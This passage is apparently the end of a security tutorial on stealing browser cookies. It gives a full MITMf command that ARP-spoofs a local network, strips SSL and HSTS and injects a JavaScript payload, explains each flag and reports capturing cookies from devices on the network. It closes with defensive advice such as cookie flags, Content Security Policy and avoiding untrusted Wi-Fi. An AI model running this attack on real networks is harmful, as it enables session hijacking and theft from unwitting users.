sudo mitmf -i wlp2s0 --inject --js-file /home/krystian/xss/payload.js --spoof --arp --hsts --netmask 192.168.1.0/24 --gateway 192.168.1.1
```

- **-i wlp2s0** - _Use interface_ **_wlp2s0_**
- **–inject –js-file /home/krystian/xss/payload.js** - _perform javascript injection on a stripped content_
- **–spoof** - _spoof the packets_
- **–hsts** - _try to strip SSL_ and HSTS
- **–netmask 192.168.1.0/24** - _set network mask_
- **–gateway 192.168.1.1** - _set the gateway_

## **_After a while, we could notice that every single device on the network sends us cookies from most of the HTTP requests they’ve sent._**

---

[](images/ss9.png "Successfull MiTM cookie sniffing")Successful MITM cookie sniffing

## How to avoid losing cookies?

- Web devs - **sanitize your inputs - do not trust any input.**
- Use HttpOnly and Secure cookie flags.
- Use the Content Security Policy.
- Verify whether sites you own do not contain something **_unexpected_** in the source code or the database.
- Do not trust every email.
- Verify what links you click on.
- Ring a bell when your connection suddenly loses SSL. ([Verify the padlock icon in a web browser](https://www.webopedia.com/TERM/P/padlock-icon.html))
- Connect only to trusted networks. (Open WiFis are not trusted)
- If you detect a Man in the Middle attack in your packet captures, do not ignore the threat.
- Turn off javascript. (When you are desperate… 😀)

## **_I wish you a good luck_** **😎**